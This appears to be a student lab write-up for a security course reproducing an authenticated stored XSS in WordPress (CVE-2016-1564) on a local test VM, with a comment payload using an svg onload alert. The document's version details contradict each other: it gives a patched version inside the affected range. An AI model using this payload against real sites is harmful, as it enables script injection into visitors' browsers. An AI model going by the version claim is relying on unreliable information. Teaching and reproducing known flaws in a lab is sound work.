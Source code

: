 # Steps
#### Step 1 - Log in as admin or editor

#### Step 2 - Inject XSS
######	Comment the payload.
	http://wpdistillery.vm/<svg onload=alert(1)>




# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Authenticated Cross-Site Scripting (XSS)

#### CVE-2016-1564



# Affected versions and patches
#### Affected version
###### WordPress 3.7 - 4.4 

#### Patched in
###### version 4.2.6



# Demo
![alt text](https://github.com/Mikhail-Kreytser/Cybersecurity-Week7/blob/master/XSS%203/Demo.gif "XSS Demo")

# References
#### https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564
